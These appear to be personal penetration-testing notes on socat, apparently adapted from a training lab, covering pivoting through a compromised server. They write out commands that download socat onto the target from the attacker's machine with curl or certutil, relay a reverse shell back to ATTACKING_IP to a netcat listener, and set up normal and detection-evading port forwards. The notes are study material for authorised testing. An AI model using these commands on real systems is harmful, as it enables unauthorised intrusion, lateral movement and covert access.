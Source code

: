 ```yaml
---
category: Uncategorized
tags: []
---
```

https://github.com/andrew-d/static-binaries/tree/master/binaries

https://github.com/3ndG4me/socat/releases

On Kali (inside the directory containing your Socat binary):

```bash - kali
sudo python3 -m http.server 80
```

Then, on the target:  
```bash - kali
curl $KALI/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```
OR
```command prompt - target
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```


standard netcat listener on our attacking box 

![[rlwrap]]

Next, on the compromised server, use the following command to start the relay:  

```bash - target
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:

![[Pasted image 20220116094947.png]]

A brief explanation of the above command:

-   `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
-   `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
-   `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo rlwrap -cAr nc -lvnp 443`.


**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:  
```bash - target
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &  
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.


**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not _massive_, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:  
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:  
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &  
`

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:  
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &  
`

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

-   The request goes to `127.0.0.1:8000`
-   Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
-   Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

-   The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
-   Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!